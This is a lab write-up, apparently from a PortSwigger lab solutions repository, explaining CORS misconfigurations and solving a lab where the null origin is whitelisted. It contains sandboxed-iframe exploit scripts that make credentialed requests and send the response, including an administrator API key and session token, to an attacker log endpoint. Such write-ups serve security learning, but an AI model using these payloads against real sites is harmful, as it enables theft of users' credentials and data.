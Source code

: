 ## Lab Description :

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/a65e4041-81be-4d5e-b670-1a23b684cbae)


## Overview :

## Errors parsing Origin headers -

 For example, suppose an application **grants access to all domains ending in**

```http
normal-website.com
```

Then an attacker might be able to gain access by registering the domain:

```http
hackersnormal-website.com
```

Alternatively, suppose an application **grants access to all domains beginning with**

```http
normal-website.com
```

An attacker might be able to gain access using the domain:

```http
normal-website.com.evil-user.net
```
## Whitelisted null origin value -

The specification for the Origin header supports the value `null`. Browsers might send the value null in the `Origin` header in various unusual situations:


Some applications might **whitelist the null origin to support local development of the application**. For example, suppose an application receives the following cross-origin request:

```http
GET /sensitive-victim-data
Host: vulnerable-website.com
Origin: null
```

And the server responds with:

```
HTTP/1.1 200 OK
Access-Control-Allow-Origin: null
Access-Control-Allow-Credentials: true
```

In this situation, an attacker can use various tricks to generate a cross-origin request containing the value null in the Origin header. This will satisfy the whitelist, leading to cross-domain access. For example, this can be done using a sandboxed iframe cross-origin request of the form:

```javascript
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" src="data:text/html,<script>
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get','vulnerable-website.com/sensitive-victim-data',true);
req.withCredentials = true;
req.send();

function reqListener() {
location='malicious-website.com/log?key='+this.responseText;
};
</script>"></iframe>
```  

## Solution :

Login to the website using credentials - `wiener:peter`.

Once logged in, we can see the API key of wiener.

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/7a08004a-0739-46b8-816e-4f9971683a30)

### Analysis -

The GET request to `/accountDetails` contains `Access-Control-Allow-Credentials` in the response.

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/4d484581-64ed-45ee-9382-a2b5b9a0520c)

> Note that there is no Access-Control-Allow-Origin header in response because the Origin header is not specified in the request.

If we give `Origin: evil.com` in request, we can see that in the response it does not contain any `Access-Control-Allow-Origin: evil.com` header. Which means evil.com is not in the whitelisted domains.

What happens if we try to give  `Origin: null` in request?

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/6fbf4a8c-4bef-4e40-bb45-7c8c7c888184)

This time we have the `Access-Control-Allow-Origin: null` header in the response. This means **null is in the whitelisted domains.**

> Some applications might whitelist the **null origin to support local development of the application**.

So by this we can bypass CORS & retreive the API key of administrator.

### Embedding  script in iframe -

Scripts that originate from an iframe usually contains `Origin: null`.

So we need to embed our exploit script inside an iframe.

**Script -**

```javascript
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" srcdoc="<script>
    var req = new XMLHttpRequest();
    req.onload = reqListener;
    req.open('get','0a5000b3043375d0842d91cd0199006b.exploit-server.net/accountDetails',true);
    req.withCredentials = true;
    req.send();
    function reqListener() {
        location='exploit-0a5000b3043375d0842d91cd0199006b.exploit-server.net/log?key='+encodeURIComponent(this.responseText);
    };
</script>"></iframe>
```
After clicking `Deliver exploit to victim`open the `Access.log`. There we can find the API key of the administrator.

```json
{
  "username": "administrator",
  "email": "",
  "apikey": "wP4InQrrPWqaqAGPQM8bZVbTH1p0JeVe",
  "sessions": [
    "3V9Od14F6X5ATsCIYK2N6bGJq3VDEEFg"
  ]
}
```


![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/c4dab72c-42d3-40ce-a793-98c5bd64ce8d)

Submit the API key of administrator to solve the lab.

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/6751ba34-111b-4956-acfe-bd50fd3a76ae)
